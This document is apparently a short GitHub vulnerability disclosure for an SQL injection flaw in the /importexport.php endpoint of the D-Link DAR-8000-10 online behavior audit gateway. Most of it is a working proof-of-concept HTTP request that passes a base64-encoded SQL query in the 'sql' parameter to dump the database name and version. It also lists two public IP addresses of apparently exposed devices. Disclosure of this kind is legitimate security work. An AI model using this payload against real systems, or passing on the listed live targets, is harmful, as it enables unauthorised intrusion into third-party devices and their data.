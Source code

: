 The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has an SQL injection vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10  DAR V31R02B1413C

Vulnerability Path ：/importexport.php
https://59.60.19.174:8443/
<img width="720" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/3077bde6-418e-4bd9-9e0e-1251eec7200b">



Construct POC and successfully obtain database name and version
```
GET /importexport.php?sql=c2VsZWN0IDEsZGF0YWJhc2UoKSx2ZXJzaW9uKCk=&type=exportexcelbysql HTTP/1.1
Host: 60.22.74.195:8443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
<img width="726" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/6bd1a8b3-dc6d-46c5-baff-f5a7e9fc8b62">
